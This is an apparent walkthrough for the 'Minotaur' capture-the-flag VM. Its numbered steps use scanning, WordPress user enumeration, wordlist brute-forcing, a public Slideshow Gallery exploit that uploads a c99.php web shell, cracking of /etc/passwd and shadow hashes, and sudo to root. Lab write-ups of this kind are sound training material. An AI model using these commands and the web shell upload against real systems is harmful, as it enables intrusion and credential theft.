 # BNE0x00 - Minotaur CTF Walkthough by Bull (@RobertWinkel)

1.	Run “netdiscover –r 192.168.56.0/24” to find the IP address of 192.168.56.223.
2.	Run “nmap –sV 192.168.56.223” to find out there is a webserver running on port 80.
3.	Connect to the webserver via http://192.168.56.223/ and find it displays a default Apache web page.
4.	Run dirbuster to find /bull/.
5.	Connect to http://192.168.56.223/bull/. Notice that it is “Proudly powered by WordPress”.
6.	Run “wpscan -u http://192.168.56.223/bull/ --enumerate u” and discover the username “bully”.
7.	Generate a password list based on the web page, e.g.:
  1.	cewl -m 5 -w minotaur_words.txt http://192.168.56.223/bull/
  2. john --wordlist=minotaur_words.txt --rules --stdout > minotaur_words_mutated.txt
8.	Run a password brute-forcer over the mutated wordlist to get the password, e.g. “wpscan -u http://192.168.56.223/bull/ -U bully -w /root/minotaur_words_mutated.txt”. **Note that wpscan needs the absolute path for the wordlist file**
9.	From the previously run of wpscan, notice the vulnerability with Slideshow Gallery.
10.	Go to http://www.exploit-db.com/exploits/34681/ and see that it requires credentials to run. Use the exploit to upload a shell, e.g.:
  1. python wp_gallery_slideshow_146_suv.py -t http://192.168.56.223/bull/ -u bully -p Bighornedbulls -f c99.php
   **Note: There are a couple other ways of uploading a shell, using Wordpress itself (e.g. update a theme)**
11.	Using the exploit, the first flag can be gained from /var/www/html/flag.txt. The second flag in /tmp/flag.txt.
12.	Using the exploit, find /tmp/shadow.bak file. Get the /etc/passwd file and unshadow them, e.g:
  1. root@kali:~# unshadow minotaur_passwd.txt minotaur_shadow.txt > minotaur_unshadow.txt
13.	Crack the passwords of a couple of the users, (heffer’s password should take around 1.5 minutes to crack. minotaur’s password should take around 12 minutes. The others should be uncrackable) e.g.:
  1. root@kali:~# john minotaur_unshadow.txt
14.	Login as heffer and grab ~heffer/flag.txt
15.	Login as minotaur and grab ~minotaur/flag.txt
16.	As minotaur, run a simple “sudo –s” to get a root shell. Grab /root/flag.txt.
17.	GAME OVER MAN. GAME OVER!

